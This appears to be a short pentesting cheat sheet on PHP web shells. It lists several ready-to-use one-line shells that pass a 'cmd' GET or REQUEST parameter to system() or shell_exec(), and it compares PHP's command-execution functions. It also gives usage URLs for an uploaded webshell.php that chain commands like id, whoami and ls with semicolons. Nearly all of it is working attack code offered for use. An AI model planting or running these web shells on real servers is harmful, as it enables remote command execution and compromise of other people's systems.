 
Garr uses: `<?php system($_GET['cmd']);?>`

```php
<?php
    echo system($_GET["cmd"]);
?>
```

```php
<?php
    echo system($_REQUEST["cmd"]);
?>
```

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

```php
<?php
    if (isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
?>
```

Use with `shell.php?cmd=whoami`

`$_POST` can catch the data which is sent using POST method
`$_GET` can catch the data which is sent using GET method
`$_REQUEST` can catch the data which is sent using **both POST & GET methods**

<font color=orange>echo var_dump($a) might be better than echo - try this!</font>

**exec()**: returns the last line of output from the command and flushes nothing.
**shell_exec()**: returns the entire output from the command and flushes nothing.
**system()**: returns the last line of output from the command and tries to flush the output buffer after each line of the output as it goes.
**passthru()**: returns nothing and passes the resulting output without interference to the browser, especially useful when the output is in binary format.

maybe use (`2>&1`) too

Use by entering a URL and "view source" for prettier output
http://test.com/uploaded-files/webshell.php?cmd=id;whoami;ls

This also uses the fact that ; at a shell prompt makes it possible to run several commands after each other

